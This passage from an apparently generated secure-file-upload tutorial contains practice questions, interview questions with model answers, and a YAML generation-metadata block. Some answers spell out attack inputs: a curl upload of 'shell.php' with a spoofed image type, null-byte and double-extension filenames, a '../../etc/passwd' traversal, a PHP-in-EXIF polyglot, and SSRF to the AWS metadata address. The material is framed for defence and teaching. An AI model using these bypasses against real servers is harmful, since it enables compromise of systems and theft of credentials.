with an embedded ICC profile or progressive JPEG look
like vs a baseline JPEG. Read what `FF D8 FF` is
followed by for different JPEG subtypes.*

**Q2.** Your application processes uploaded PDF files
using a server-side PDF renderer to generate thumbnails.
A security researcher files a bug report: uploading an
SVG disguised as a PDF triggers an HTTP request from
your server to `http://169.254.169.254/latest/meta-data/`.
Your magic byte check correctly validates PDFs. Why does
this attack still succeed, and what two architectural
controls would prevent it?

*Hint: Think about which part of the pipeline is making
the outbound request, whether magic byte validation
happens before or after the PDF renderer runs, and
what "metadata endpoint" means in the context of AWS
EC2.*

**Q3.** [G] Implement a minimal upload endpoint test
suite: write three pytest tests that verify (1) a PHP
file with `Content-Type: image/jpeg` is rejected with
422, (2) a JPEG with an EXIF comment containing
`<?php ?>` is re-encoded cleanly and the comment
stripped, (3) a path traversal attempt (`../../etc/
passwd`) as a filename results in a UUID-named file
in the expected directory. What test fixtures do you
need, and how do you generate a synthetic JPEG with
embedded EXIF data programmatically?

*Hint: Pillow's `ExifTags` and `piexif` library let
you construct a JPEG with arbitrary EXIF comment data
in test setup. Use `exiftool` or `piexif.load()` to
verify the comment was stripped after re-encoding.*

---

### 🎯 Interview Deep-Dive

**Q1: Why is checking the Content-Type header
insufficient to validate file uploads?**

*Why they ask:* Tests whether the candidate understands
trust boundaries between client and server.

*Strong answer includes:*
- Content-Type is an HTTP header set by the client -
  it is untrusted user input like any other request field
- `curl -X POST -F "file=@shell.php;type=image/jpeg"` -
  any client can set it to any value
- Server-side validation must read actual file bytes
  (magic numbers / libmagic) to determine real content
- Mention that extension is equally untrusted:
  `shell.php.jpg` or null byte injection (`shell.php%00.jpg`
  on older servers) bypass extension checks

**Q2: What is a polyglot file, and why does magic-byte
checking not fully prevent it?**

*Why they ask:* Probes depth of understanding beyond
beginner controls. Tests awareness of advanced bypass
techniques.

*Strong answer includes:*
- A polyglot is a file simultaneously valid in two
  formats - e.g. starts with `FF D8 FF` (valid JPEG
  magic) but contains PHP in EXIF comment or after
  the JPEG end-of-image marker
- Magic byte check reads first 4-8 bytes: these match
  JPEG, check passes
- If PHP interprets the file (misconfigured server),
  the appended payload executes
- Real defense: re-encode images through Pillow/sharp,
  which parses only pixel data and writes a fresh file
  - polyglot payload is destroyed in the process

**Q3: You are designing file upload for a fintech
platform that accepts user documents (PDFs, images).
Walk me through your architecture from upload to serving.**

*Why they ask:* Architecture question that reveals
whether the candidate thinks in complete systems
rather than single-component fixes.

*Strong answer includes:*
- Client uploads directly to S3 via pre-signed URL
  (application server generates URL, never sees bytes)
- S3 event triggers Lambda/worker: magic byte check,
  document antivirus scan (ClamAV or vendor API),
  image re-encoding via Lambda layer
- Quarantine bucket vs serving bucket with automated
  promotion/deletion
- CDN serves with `Content-Disposition: attachment`,
  private ACL, short-TTL pre-signed URLs
- Database stores (user_id, uuid, original_filename,
  validated_mime) - original name never used as path

**Q4: You discover an existing upload endpoint that
stores files at `/var/www/html/uploads/{filename}`.
You cannot refactor this sprint. What is the minimum
viable fix and what residual risk remains?**

*Why they ask:* Real-world incident response: can the
candidate identify the minimum effective change under
constraints?

*Strong answer includes:*
- Immediate: Nginx rule `location /uploads/ { location
  ~ \.php$ { deny all; } }` prevents execution
- Also: rename existing uploaded files to UUID names
  and update references
- Residual risk: files are still web-accessible (IDOR
  if names are guessable); server-side include (SSI)
  or other interpreters may still process files; storage
  path is predictable for brute-force enumeration
- Proper fix (next sprint): move to S3 and regenerate
  all serving URLs

```yaml
validation:
  spec_version: 5.0
  mode: REGISTRY
  topic_type: 3
  difficulty: ★★☆
  word_count: 4850
  sections_emitted: [5.1, 5.2, 5.3, 5.4, 5.5, 5.6, 5.7,
                     5.8, 5.9, 5.10, 5.11, 5.12, 5.13,
                     5.14, 5.15, 5.16, 5.17, 5.18, 5.19,
                     5.20, 5.21, 5.22, 5.23, 5.24]
  sections_skipped: []
  unfilled_required_sections: []
  diagrams: {ascii: 3, mermaid: 2}
  failure_modes: 3
  misconceptions: 5
  code_examples: 3
  code_examples_scenarios: 3
  code_examples_dimensions:
    - usage
    - failure
    - debug
    - scale
  code_examples_categories: [2, 3, 4, 5]
  citations_emitted:
    - "CVE-2016-3714 (ImageTragick)"
    - "OWASP Unrestricted File Upload"
  quality_test_scores:
    T1_search_again: 4
    T2_feynman: 3
    T3_senior: 3
    T4_staff: 2
    T5_production: 3
    T6_retention: 3
    T7_decision: 3
    T8_scale: 2
    total: 23
  prompt_injection_attempt: false
  truthfulness_check: pass
  forbidden_patterns_check: pass
  word_budget_band: medium
  notes: "Type 3 concept with strong code examples.
    Polyglot discussion targets senior engineers."
```
